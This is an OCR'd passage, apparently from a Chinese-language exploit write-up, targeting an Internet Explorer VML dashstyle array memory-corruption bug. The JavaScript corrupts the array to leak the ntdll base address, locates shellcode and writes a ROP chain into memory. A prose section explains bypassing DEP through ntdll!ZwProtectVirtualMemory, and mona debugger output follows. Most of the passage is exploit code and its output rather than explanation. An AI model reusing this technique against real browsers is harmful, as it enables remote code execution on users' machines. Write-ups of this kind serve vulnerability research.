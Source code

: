 			if (marginLeftAddress_orgin != marginLeftAddress_modify) {

				vml1.dashstyle.array.item(0x2E+0x16) = 0x7ffe0300;

				var leak = a[i].marginLeft;

				vml1.dashstyle.array.item(0x2E+0x16) = marginLeftAddress_orgin;

				var shelladdr = marginLeftAddress_modify;

				ntdllbase = parseInt(leak.charCodeAt(1).toString(16) +
				leak.charCodeAt(0).toString(16), 16) - 0x464F0;

				alert("ntdllbase: 0x" + ntdllbase.toString(16));

				alert("shelladdr: 0x" + shelladdr.toString(16));

				var rop_chain = tab2uni(get_ropchain(shelladdr));

				a[i].marginLeft = rop_chain;

				rop_addr = vml1.dashstyle.array.item(0x2E+0x16);

				vml1.dashstyle.array.item(0x2E+0x16) = marginLeftAddress_orgin;

				vml1.dashstyle.array.length = length_orig;

				alert("ropaddr: 0x" + rop_addr.toString(16));

				break;

			}

		}

	}

关于ROP链的选择自然是用mona来找最方便了，但这里用的ntdll!ZwProtectVirtualMemory函数来绕过DEP，而mona只提供了VirtualProtect()函数和VirtualAlloc()函数的ROP供选择，所以如果要用ntdll!ZwProtectVirtualMemory我们只能根据参数来布局来选择。

	0:005> !py mona rop -m "ntdll.dll"

	---------- Mona command started on 2019-05-27 14:47:11 (v2.0, rev 590)----------

	[+] Processing arguments and criteria

	- Pointer access level : X

	- Only querying modules ntdll.dll

	[+] Generating module info table, hang on...

	- Processing modules

	- Done. Let's rock 'n roll.

	[+] Preparing output file '_rop_progress_iexplore.exe_2516.log'

	- (Re)setting logfile _rop_progress_iexplore.exe_2516.log

	[+] Progress will be written to _rop_progress_iexplore.exe_2516.log

	[+] Maximum offset : 40

	[+] (Minimum/optional maximum) stackpivot distance : 8

